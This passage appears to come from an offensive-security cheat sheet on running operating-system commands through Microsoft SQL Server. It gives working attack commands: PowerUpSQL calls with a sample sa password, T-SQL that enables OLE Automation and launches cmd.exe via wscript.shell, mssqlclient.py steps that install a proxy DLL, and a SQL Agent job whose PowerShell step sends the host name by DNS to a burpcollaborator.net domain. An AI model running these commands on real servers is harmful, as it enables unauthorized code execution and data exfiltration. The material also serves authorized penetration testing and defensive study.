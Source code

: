 ### Execute commands using OLE automation procedures

```ps1
Invoke-SQLOSCmdOle -Username sa -Password Password1234 -Instance "<DBSERVERNAME\DBInstance>" -Command "whoami" Verbose
```

```ps1
# Enable OLE Automation
EXEC sp_configure 'show advanced options', 1
EXEC sp_configure reconfigure
EXEC sp_configure 'OLE Automation Procedures', 1
EXEC sp_configure reconfigure

# Execute commands
DECLARE @execmd INT
EXEC SP_OACREATE 'wscript.shell', @execmd OUTPUT
EXEC SP_OAMETHOD @execmd, 'run', null, '%systemroot%\system32\cmd.exe /c'
```

```powershell
# https://github.com/blackarrowsec/mssqlproxy/blob/master/mssqlclient.py
python3 mssqlclient.py 'host/username:password@10.10.10.10' -install -clr Microsoft.SqlServer.Proxy.dll
python3 mssqlclient.py 'host/username:password@10.10.10.10' -check -reciclador 'C:\windows\temp\reciclador.dll'
python3 mssqlclient.py 'host/username:password@10.10.10.10' -start -reciclador 'C:\windows\temp\reciclador.dll'
SQL> enable_ole
SQL> upload reciclador.dll C:\windows\temp\reciclador.dll
```

## Agent Jobs

- The execution takes place with privileges of the **SQL Server Agent service account** if a proxy account is not configured.
- :warning: Require **sysadmin** or **SQLAgentUserRole**, **SQLAgentReaderRole**, and **SQLAgentOperatorRole** roles to create a job.

### Execute commands through SQL Agent Job service

```ps1
Invoke-SQLOSCmdAgentJob -Subsystem PowerShell -Username sa -Password Password1234 -Instance "<DBSERVERNAME\DBInstance>" -Command "powershell e <base64encodedscript>" -Verbose
Subsystem Options:
–Subsystem CmdExec
-SubSystem PowerShell
–Subsystem VBScript
–Subsystem Jscript
```

```sql
USE msdb; 
EXEC dbo.sp_add_job @job_name = N'test_powershell_job1'; 
EXEC sp_add_jobstep @job_name = N'test_powershell_job1', @step_name = N'test_powershell_name1', @subsystem = N'PowerShell', @command = N'$name=$env:COMPUTERNAME[10];nslookup "$name.redacted.burpcollaborator.net"', @retry_attempts = 1, @retry_interval = 5 ;
EXEC dbo.sp_add_jobserver @job_name = N'test_powershell_job1'; 
EXEC dbo.sp_start_job N'test_powershell_job1';

-- delete
EXEC dbo.sp_delete_job @job_name = N'test_powershell_job1';
```
